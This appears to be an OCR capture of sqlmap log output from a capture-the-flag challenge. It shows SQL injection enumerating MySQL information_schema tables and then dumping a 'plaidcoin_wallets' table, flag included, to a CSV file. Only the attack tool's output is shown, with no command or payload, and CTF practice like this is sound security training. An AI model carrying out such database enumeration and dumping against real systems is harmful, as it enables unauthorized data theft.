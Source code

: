 ```bash
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: SESSION_STATUS
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: SESSION_VARIABLES
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: STATISTICS
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: TABLES
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: TABLESPACES
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: TABLE_CONSTRAINTS
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: TABLE_PRIVILEGES
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: TRIGGERS
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: USER_PRIVILEGES
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: VIEWS
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: INNODB_BUFFER_PAGE
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: INNODB_TRX
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: INNODB_BUFFER_POOL_STATS
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: INNODB_LOCK_WAITS
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: INNODB_CMPMEM
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: INNODB_CMP
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: INNODB_LOCKS
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: INNODB_CMPMEM_RESET
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: INNODB_CMP_RESET
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: INNODB_BUFFER_PAGE_LRU
[13:33:37] [INFO] retrieved: mtpox
[13:33:37] [INFO] retrieved: plaidcoin_wallets
[13:33:37] [INFO] fetching columns for table 'plaidcoin_wallets' on database 'mtpox'
[13:33:37] [INFO] the SQL query used returns 2 entries
[13:33:37] [INFO] retrieved: id
[13:33:37] [INFO] retrieved: varchar(40)
[13:33:37] [INFO] retrieved: amount
[13:33:37] [INFO] retrieved: int(30)
[13:33:37] [INFO] fetching entries for table 'plaidcoin_wallets' on database 'mtpox'
[13:33:37] [INFO] the SQL query used returns 1 entries
[13:33:37] [INFO] retrieved: 1333337
[13:33:37] [INFO] retrieved: flag{phpPhPphpPPPphpcoin}
Database: mtpox
Table: plaidcoin_wallets
[1 entry]
+---------+---------------------------+
| amount  | id                        |
+---------+---------------------------+
| 1333337 | flag{phpPhPphpPPPphpcoin} |
+---------+---------------------------+

[13:33:37] [INFO] Table 'mtpox.plaidcoin_wallets' dumped to CSV file '/usr/local/Cellar/sqlmap/0.9/output/54.211.6.40/dump/mtpox/plaidcoin_wallets.csv'
```